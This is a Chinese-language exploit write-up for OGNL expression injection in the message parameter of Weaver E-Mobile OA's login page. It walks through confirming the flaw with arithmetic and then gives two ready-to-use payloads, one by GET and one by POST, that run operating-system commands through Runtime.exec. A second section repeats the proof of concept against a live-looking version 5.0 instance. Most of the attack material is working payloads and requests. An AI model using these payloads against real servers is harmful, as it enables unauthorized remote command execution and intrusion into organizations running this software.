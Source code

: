 ## 泛微e-mobile-ognl注入.assets

泛微 E-Mobile 表达式注入?大概?这个洞是一个月以前，老师丢给我玩的，叫我学习一下。
拿到的时候一脸懵逼，什么是表达式注入?去漏洞库看了一圈。
(・。・) 噢！原来可以执行算术运算就是表达式注入呀！
要怎么玩？当计算器用么？～ヾ(*´∇`)ﾉ

一、泛微OA E-Mobile WebServer:**Apache** 通用部分:**apache**
官方有两个OA。一个是**apache**的 一个是**Resin**的。
**Resin**的也找到姿势通杀了，但是**Resin**涉及的站太大了。。。暂时不放出来，因为好像和S2撞洞了？因为045打了WAF的 ，我这个可以执行命令。23333 我也不知道~

```
1、登录页面如下

http://6.6.6.6/login.do?
or
http://6.6.6.6/login/login.do?
```



```
2、当账号密码报错的时候，出现如下URL
login.do?message=104&verify=
```



```
3、直接改写message=的内容，试试算术运算。
http://6.6.6.6/login.do?message=66*66*66-66666
```





```
4、表达式注入。
有的表达式注入是${code}。这里隐藏了${}，所以直接调用就行了。
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```



```
5、也可以通过`post`提交数据来进行注入，命令执行
`post`如下数据也可以：
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```



====================================================================

网络实例

![图片](泛微e-mobile-ognl注入.assets/640)

此版本为5.0

首先随便输入账号密码看提示信息

![图片](泛微e-mobile-ognl注入.assets/640)

提示为104，地址栏message也显示了104,现在测试一下看看有没有注入

直接获取数据法: 加减乘除

表达式获取数据语法："${标识符}"，但在这个中并不需要${}来包括

- 

```
http://www.xxx.com/login.do?message=104-2&verify=
```

![图片](泛微e-mobile-ognl注入.assets/640)

结果可以被执行成功，表示漏洞存在可注入

这里有两个poc可利用

```
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())下面需要Post请求message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```

![图片](泛微e-mobile-ognl注入.assets/640)

![图片](泛微e-mobile-ognl注入.assets/640)



